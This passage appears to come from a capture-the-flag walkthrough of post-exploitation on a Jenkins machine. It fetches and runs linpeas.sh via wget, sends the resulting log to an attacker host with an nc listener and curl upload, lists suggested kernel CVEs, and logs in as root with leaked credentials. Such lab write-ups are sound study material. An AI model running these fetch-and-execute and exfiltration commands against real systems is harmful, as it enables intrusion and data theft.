 Then, over on the Jenkins machine run:

```
# Switch to the /tmp folder where we will have write access
cd /tmp

# Download the script
wget http://10.10.10.10:8000/linpeas.sh

# Mark it as executable
chmod +x ./linpeas.sh

# Run it and capture the results into a file, where we can read it more easily later
./linpeas.sh 2>&1 > ./linpeas.log
```

This results in Linpeas running and outputting `STDOUT` and `STDERR` to the `linpeas.log` file, which we'll pull back to our workstation to read. To do that, when this Jenkins machine does NOT have Netcat installed, let's listen for the file on our workstation with:

```bash
nc -lvnp 8888 > ./linpeas.log
```

This just takes all of the bytes that it gets on that port, and dumps them to this file. Now on the target Jenkins machine, we can ship this log file to our workstation with Curl:

```bash
curl -T ./linpeas.log http://10.10.10.10:8888/
```

Reviewing the `linpeas.log`, the Linux Exploit Suggester lists several CVE's (all marked as "less probable"):

- **CVE-2022-32250** - nft_object UAF (NFT_MSG_NEWSET) ([Link](https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/))
- **CVE-2022-2586** - nft_object UAF ([Link](https://www.openwall.com/lists/oss-security/2022/08/29/5))
- **CVE-2021-27365** - linux-iscsi ([Link](https://blog.grimm-co.com/2021/03/new-old-bugs-in-linux-kernel.html))
- **CVE-2021-22555** - Netfilter heap out-of-bounds write ([Link](https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html))
- **CVE-2019-15666** - XFRM_UAF ([Link](https://duasynt.com/blog/ubuntu-centos-redhat-privesc))
- **CVE-2018-1000001** - RationalLove ([Link](https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/))
- **CVE-2017-1000366,CVE-2017-1000379** - linux_ldso_hwcap_64 ([Link](https://www.qualys.com/2017/06/19/stack-clash/stack-clash.txt))

There were also some container breakouts specified, but reading up on them, they require that we be running root in this container, which we're not.

#### Exposure of a file

In the end, in the `/opt/` folder there is [note.txt](note.txt) file that exposes credentials. You can use those to SSH into the box:

```bash
ssh root@$TARGET
```
